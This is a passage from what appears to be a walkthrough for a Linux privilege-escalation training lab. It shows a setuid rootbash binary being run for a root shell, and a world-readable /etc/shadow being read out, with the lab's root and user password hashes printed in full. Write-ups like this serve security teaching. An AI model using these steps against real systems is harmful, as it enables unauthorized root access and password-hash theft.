 - Exit out of the MySQL shell (type `exit` or `\q` and press Enter) and run the `/tmp/rootbash` executable with `-p` to gain a shell running with root privileges:

    ```bash
    mysql> exit
    Bye
    user@debian:~/tools/mysql-udf$ /tmp/rootbash -p
    rootbash-4.1#
    ```

- Remember to remove the `/tmp/rootbash` executable and exit out of the root shell before continuing as you will create this file again later in the room!

    ```bash
    rootbash-4.1# rm /tmp/rootbash
    rootbash-4.1# exit
    exit
    ```

## Weak File Permissions - Readable /etc/shadow
The `/etc/shadow` file contains user password hashes and is usually readable only by the root user.

- Note that the /etc/shadow file on the VM is world-readable:

    ```bash
    user@debian:~$ ls -l /etc/shadow
    -rw-r--rw- 1 root shadow 837 Aug 25  2019 /etc/shadow
    ```

- View the contents of the /etc/shadow file:

    ```bash
    user@debian:~$ cat /etc/shadow
    root:$6$Tb/euwmK$OXA.dwMeOAcopwBl68boTG5zi65wIHsc84OWAIye5VITLLtVlaXvRDJXET..it8r.jbrlpfZeMdwD3B0fGxJI0:17298:0:99999:7:::
    daemon:*:17298:0:99999:7:::
    bin:*:17298:0:99999:7:::
    sys:*:17298:0:99999:7:::
    sync:*:17298:0:99999:7:::
    games:*:17298:0:99999:7:::
    man:*:17298:0:99999:7:::
    lp:*:17298:0:99999:7:::
    mail:*:17298:0:99999:7:::
    news:*:17298:0:99999:7:::
    uucp:*:17298:0:99999:7:::
    proxy:*:17298:0:99999:7:::
    www-data:*:17298:0:99999:7:::
    backup:*:17298:0:99999:7:::
    list:*:17298:0:99999:7:::
    irc:*:17298:0:99999:7:::
    gnats:*:17298:0:99999:7:::
    nobody:*:17298:0:99999:7:::
    libuuid:!:17298:0:99999:7:::
    Debian-exim:!:17298:0:99999:7:::
    sshd:*:17298:0:99999:7:::
    user:$6$M1tQjkeb$M1A/ArH4JeyF1zBJPLQ.TZQR1locUlz0wIZsoY6aDOZRFrYirKDW5IJy32FBGjwYpT2O1zrR2xTROv7wRIkF8.:17298:0:99999:7:::
    statd:*:17299:0:99999:7:::
    mysql:!:18133:0:99999:7:::
    ```
